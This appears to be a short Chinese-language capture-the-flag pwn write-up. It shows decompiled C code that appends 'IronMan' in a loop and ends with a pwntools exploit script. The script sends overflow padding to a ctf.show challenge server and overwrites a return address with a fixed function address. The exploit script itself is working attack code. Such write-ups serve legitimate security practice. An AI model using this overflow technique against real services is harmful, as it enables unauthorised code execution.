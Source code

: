 关键函数是这个：

```c
for ( i = 1; ; ++i )
    {
      v2 = sub_80496D6(v8);
      if ( v2 <= i )
        break;
      std==string==operator+=(&unk_804D0A0, "IronMan");
      v3 = sub_8049700(v8, i);
      std==string==operator+=(&unk_804D0A0, v3);
    }
```



sub_8049700函数如下：

```c
int __cdecl sub_8049700(_DWORD *a1, int a2)
{
  return *a1 + 24 * a2;
}
```



sub_80496D6函数如下：

```c
int __cdecl sub_80496D6(_DWORD *a1)
{
  return -1431655765 * ((a1[1] - *a1) >> 3);
}
```

不会分析，略过吧，哥们就是动态试出来的





那就直接构造吧，最终exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28290

p = remote(ip,port)
elf = ELF('./pwn')
offset = b'I' * int((0x6C + 0x04) / 7)
payload = offset 
payload += p32(0x0804902E)

p.recvuntil('Who are you?') 
p.sendline(payload)

p.interactive()
```
